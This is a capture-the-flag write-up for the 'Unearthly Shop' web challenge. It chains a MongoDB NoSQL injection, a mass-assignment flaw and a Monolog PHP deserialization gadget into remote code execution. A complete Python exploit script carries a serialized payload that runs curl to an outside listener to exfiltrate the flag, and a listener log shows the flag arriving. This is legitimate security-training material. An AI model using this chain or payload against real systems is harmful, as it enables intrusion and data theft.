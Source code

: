 # [Web - hard] Unearthly Shop

Disclaimer: this challenge was not fully solved. The last part we needed was to include a class from outside the backend, and taken from HTB discord write-ups.

This webapp is written in PHP and uses a MongoDB database. It has 2 components:

- a frontend, that displays items in a store, and on which users can place bids
- a backend, through which an admin can login in order to view a Dashboard, and manage the Products, the Orders, and the Users

This webapp contains 2 vulnerabilities:

- listing the products is the as-is MongoDB query: it can be used with a NoSQL injection to list the products and the users, which will give the admin password (passwords are stored in clear, not using `bcrypt` for instance)

```php
    public function products($router)
    {
        $json = file_get_contents('php://input');
        $query = json_decode($json, true);
        if (!$query)
        {
            $router->jsonify(['message' => 'Insufficient parameters!'], 400);
        }
        $products = $this->product->getProducts($query);
```

- using the admin interface, the password change function can accept more than the password change: it can be used to modify other attributes of the user, such as the Access

```php
    public function update($router)
    {
        $json = file_get_contents('php://input');
        $data = json_decode($json, true);
        if (!$data['_id'] || !$data['username'] || !$data['password'])
        {
            $router->jsonify(['message' => 'Insufficient parameters!'], 400);
        }
        if ($this->user->updateUser($data)) {
            $router->jsonify(['message' => 'User updated successfully!']);
        }

```

- the Access of an user is a serialized PHP object. It is deserialized upon instanciation of a Controller, taking values from the user Session

```php
class UserModel extends Model
{
    public function __construct()
    {
        parent::__construct();
        $this->username = $_SESSION['username'] ?? '';
        $this->email    = $_SESSION['email'] ?? '';
        $this->access   = unserialize($_SESSION['access'] ?? '');
    }
[...]
class Controller
{
    public $user;
    public $access;
    public $username;
    public function __construct($privileged = False, $required_access = [])
    {
        $this->database = Database::getDatabase();
        $this->user     = new UserModel;
        $this->product  = new ProductModel;
        $this->order    = new OrderModel;
```

Thus the path to the flag is to:

- use the NoSQLi in the product listing to get the admin password
- login as the admin
- craft a serialized PHP object that will contain an RCE, exfiltrating the flag from the filesystem. In PHP the serialization needs to use a class that is present for instanciation. This application having 2 parts (frontend + backend), and since we are invoking it from the backend, we need to rely on [this trick](https://www.ambionics.io/blog/vbulletin-unserializable-but-unreachable) to `autoload` the corresponding class (this is what we were missing). The frontend includes a vulnerable `monolog` library, exploitable from a classic [phpggc](https://github.com/ambionics/phpggc) gadget
- use that serialized object, and abuse the update password function to update the admin Access
- login and display the admin user info to instanciate the Controller, which will deserialize our payload, leading to an RCE

The final script is:

```python
import requests
import json
import subprocess

endpoint = "http://165.232.108.240:31054"

def main():
    s = requests.Session()
    # NoSQLi for admin pass
    response = s.post(endpoint + '/api/products', data = '[{"$match":{"instock":true}}, {"$unionWith": { "coll": "users" }}]')
    admin_pass = json.loads(response.text)[-1]['password']
    print("Admin password: {}".format(admin_pass))

    # login with admin
    response = s.post(endpoint + '/admin/api/auth/login', data = {"username": "admin", "password": admin_pass})
    print(response.text)

    # https://www.ambionics.io/blog/vbulletin-unserializable-but-unreachable
    serial_object = 'a:2:{i:0;O:28:"www_frontend_vendor_autoload":0:{}i:1;'
    # ./phpggc Monolog/RCE6 system "curl http://1.2.3.4:4444/?c=\$(/readflag)" -a 2>/dev/null | grep O:
    serial_object += 'O:37:"Monolog\Handler\FingersCrossedHandler":3:{S:16:"\00*\00passthruLevel";i:0;S:9:"\00*\00buffer";a:1:{S:4:"test";a:2:{i:0;S:48:"curl http://1.2.3.4:4444/?c=$(/readflag)";S:5:"level";N;}}S:10:"\00*\00handler";O:29:"Monolog\Handler\BufferHandler":7:{S:10:"\00*\00handler";N;S:13:"\00*\00bufferSize";i:-1;S:9:"\00*\00buffer";N;S:8:"\00*\00level";N;S:14:"\00*\00initialized";b:1;S:14:"\00*\00bufferLimit";i:-1;S:13:"\00*\00processors";a:2:{i:0;S:7:"current";i:1;S:6:"system";}}}'
    serial_object += '}'

    # Update admin access serial object
    # Normal access: a:4:{s:9:"Dashboard";b:1;s:7:"Product";b:1;s:5:"Order";b:1;s:4:"User";b:1;}
    # to restore: use unearthly_shop; db.users.updateOne({username: "admin"},{$set: {access: 'a:4:{s:9:"Dashboard";b:1;s:7:"Product";b:1;s:5:"Order";b:1;s:4:"User";b:1;}'}});
    response = s.post(endpoint + '/admin/api/users/update', json = {"_id": 1, "username": "admin", "password": admin_pass, "access": serial_object})
    print(response.text)

    # unserialize at user creation, which is polluted at user login, and used in view
    # login with admin
    response = s.post(endpoint + '/admin/api/auth/login', data = {"username": "admin", "password": admin_pass})
    response = s.get(endpoint + '/admin/api/users/1')
    print(response.text)

main()
```

And on the HTTP listener:

```bash
pi@raspberrypi:/tmp/lol $ python -m http.server 4444
Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...
165.232.108.240 - - [25/Mar/2023 16:19:36] "GET /?c=HTBl00kup_4r7if4c75_4nd_4u70lo4d_g4dg37s HTTP/1.1" 200 -
165.232.108.240 - - [25/Mar/2023 16:19:37] "GET /?c=HTBl00kup_4r7if4c75_4nd_4u70lo4d_g4dg37s HTTP/1.1" 200 -
```
